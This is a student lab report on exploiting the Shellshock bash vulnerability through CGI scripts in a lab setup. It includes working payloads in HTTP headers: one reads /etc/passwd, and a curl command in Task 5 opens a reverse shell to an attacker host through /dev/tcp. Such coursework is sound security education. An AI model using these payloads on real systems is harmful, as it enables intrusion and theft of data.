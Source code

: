 # CIS 751 Lab 2 Report
### Author: Chuck Zumbaugh
### Collaborators: None

## Task 1
In this task we check to see if the `/bin/bash_shellshock` and `/bin/bash` shells are vulnerable to shellshock. Shellshock was a vulnerability in bash that exploited how environment variables are passed to child processes. Specifically, if a bash function is written as a string and saved as an environment variable (ex. `foo='() { echo Hello, World; };'`) it will be parsed as a function when the environment variables are inherited by a child process. Moreover, bash parses and executes when evaluating this, so subsequent commands will be executed when the function is parsed. For example, the string `"Executed"` will be printed when the below environment variable is inherited by a child process.
```sh
FOO='() { echo junk; }; echo Executed'
``` 

This behavior is demonstrated in Figure 1. If we create the following shell variable:
```sh
export FOO='() { echo Hello; }; echo vulnerable'
```
We would expect a vulnerable version of bash to print the string `"vulnerable"`. As a result, we can execute arbitrary commands using the above method.

![Task 1: /bin/bash_shellshock shell](./Screenshots/task1_a.png)

However, Figure 2 illustrates that the updated version of bash is not susceptible to this vulnerability. When the new bash shell is spawned, `"vulnerable"` is not printed. Upon further inspection, it is evident that the environment variable `FOO` has not been parsed as a function and remains a string.

![Task 1: /bin/bash shell](./Screenshots/task1_b.png)

## Task 2
Figure 3 illustrates how we can use a simple CGI script to return some data on a GET request. This program simply prints out `"Hello World"` when executed. 
```sh
#!/bin/bash_shellshock

echo "Content-type: text/plain"
echo
echo
echo "Hello World"
```

Ultimately, this is the script we will exploit and is can be called using the following.
```sh
curl http://localhost/cgi-bin/myprog.cgi
```

## Task 3
In this task we will demonstrate how we can modify environment variables during request processing. To demonstrate this, we shall use a modification of the above CGI script.
```sh
#!/bin/bash_shellshock

echo "Content-type: text/plain"
echo
echo "****** Environment Variables ******"
strings /proc/$$/environ
```
When executed, this CGI script will return a list of all environment variables in the current process. For example, when `curl http://localhost/cgi-bin/myprog2.cgi` is executed we get the following returned:

![Task 3: A GCI script that returns environment variables](./Screenshots/task3_a.png)

Note that the HTTP headers are included in these environment variables, so the bash program must be including them before executing the CGI script. We can verify this with the below request.
```sh
curl http://localhost/cgi-bin/myprog2 -H "User-agent: my string"
```

The below figure illustrates the result of this request. The HTTP_USER_AGENT variable, which was previously curl/7.47.0, is now "my string". Thus, we can manipulate the environment variables through HTTP headers that are sent with the request.

![Task 3: A request that modifys environment variables](./Screenshots/task3_b.png)

## Task 4
We will now launch a Shellshock attack and steal the contents of the `/etc/passwd` file. To do this, we will modify the environment variables as described in Task 3 in such a way that we are able to emulate the behavior of `strings /proc/$$/environ` in the modified CGI script of Task 3. As described in Task 1, we can do this by defining an environment variable as the string representation of a function, and adding a command to end that is executed when the string is parsed. Since we want the data in `/etc/passwd`, the command we wish to execute is `strings /etc/passwd`. Specifically, we want to set an environment variable as follows.
```sh
VAR="() { :; }; echo; /bin/bash -c 'strings /etc/passwd'"
```

This string contains an initial function that does nothing, followed by an echo, and a command to spawn a bash shell and execute `strings /etc/passwd`. Indeed, if we run this we receive the contents of the file as expected.

![Task 4: Stealing the contents of /etc/passwd](./Screenshots/task4_a.png)

However, we are unable to steal the contents of /etc/shadow. This is because the bash program that is invoked does not have read permissions for this file.

![Task 4: We cannot steal /etc/shadow](./Screenshots/task4_b.png)

## Task 5:
We will now launch a Shellshock attack to receive a reverse shell to the machine. Similar to Task 4, we will pass a malicious HTTP header that will set up the reverse shell when parsed and executed by a vulnerable bash program. As described in the lab text, we wish to execute the following command on the victim machine where LHOST and LPORT are the IP address and listening port of the attacking machine.
```sh
/bin/bash -i /dev/tcp/<LHOST>/<LPORT> 0<&1 2>&1
```

This command will call /bin/bash in interactive mode (-i), and direct the output of the shell to the TCP connection to LHOST's LPORT (/dev/tcp/<LHOST>/<LPORT>). We then indicate to use the same TCP connection as the input device by specifying to use the standard output device as the standard input device (0<&1). Finally, we also indicate the stderr output to be directed to stdout (the TCP connection) with 2>&1.

Our request now becomes the following, where `<RHOST>` is the IP address of the victim.
```sh
curl -H "User-Agent: () { :; }; echo; /bin/bash -i > /dev/tcp/<LHOST>/<LPORT> 0<&1 2>&1" "http://<RHOST>/cgi-bin/myprog.cgi"
```

We can run this on localhost and receive a reverse shell.

![Task 5: Setting up a listener on localhost](./Screenshots/task5_a.png)
![Task 5: Creating the HTTP request on localhost](./Screenshots/task5_b.png)
![Task 5: Obtaining a reverse shell on localhost](./Screenshots/task5_c.png)

However, we can also attack this machine as a remote user. The below figures illustrate executing this attack from the Kali machine. Note that in these examples the variables in the request are as follows.

| Variable | Value |
| -------- | ----- |
| LHOST    | 192.168.219.134 |
| LPORT    | 8888 | 
| RHOST    | 192.168.219.165 |

![Task 5: Setting up a listener on Kali](./Screenshots/task5_d.png)
![Task 5: Creating the HTTP request on Kali](./Screenshots/task5_e.png)
![Task 5: Obtaining the reverse shell on Kali](./Screenshots/task5_f.png)